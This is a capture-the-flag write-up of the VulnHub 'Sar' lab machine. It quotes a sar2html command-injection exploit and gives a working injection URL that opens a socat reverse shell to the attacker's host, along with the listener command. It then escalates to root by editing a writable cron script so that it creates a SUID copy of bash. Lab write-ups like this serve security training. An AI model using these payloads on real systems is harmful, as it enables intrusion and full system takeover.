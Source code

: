 ```yaml
---
layout: post
title: Sar
description: Sar is a linux machine showcasing the exploitation of remote code execution in Sar2Html, and abuse of a crobjob.
categories: [writeups]
tags: [vulnhub, RCE, Cronjob]
---
```


## **Summary**

Sar2Html was vulnerable to a remote code execution which allowed us to gain access to the machine. To escalate our privileges we took advantage
of cronjob that executed a script we can modify.

> Machine can be found in [Vulnhub](https://www.vulnhub.com/entry/sar-1,425/)
{: .prompt-info }

## **Enumeration**

### **nmap**

![](/assets/sar/nmap.png)

```
$ nmap -A 192.168.1.104
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 11:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

### **http**

`robots.txt` contains one value: `sar2HTML`

![](/assets/sar/robots.png)

Browsed to `http://192.168.1.104/sar2HTML` and got the home page

![](/assets/sar/sar2HTML.png)

## **Foothold**

Looked for an exploit online and found this one at [exploitdb](https://www.exploit-db.com/exploits/47204)

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Tested the exploit:

![](/assets/sar/exploit-test.PNG)

Used socat reverse shell found at [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#socat)

Sat up a listener

```
socat file:`tty`,raw,echo=0 TCP-L:444
```

Browsed to `http://192.168.1.104/sar2HTML/index.php?plot=;socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.1.100:4444
` and got a reverse shell as `www-data`.

## **PrivEsc**

Examined the content of `/etc/crontab` and found a job running every 5 minutes to execute `/var/www/html/finally.sh`.

![](/assets/sar/crontab.png)

Examined `finally.sh` and found that it executes `write.sh` which we can modify.

![](/assets/sar/write-is-writable.png)

Backed up `write.sh` as `write.sh.orig`

Modified `write.sh` with the following:

```
#!/bin/sh

cp /bin/bash /bin/mybash
chmod u+s /bin/mybash
```

![](/assets/sar/write-modify.png)

Waited for 5 minutes, and `mybash` was created with the SUID bit set.

![](/assets/sar/mybash-suid.png)

Ran `mybash -p` and got a root shell

![](/assets/sar/root-shell.png)
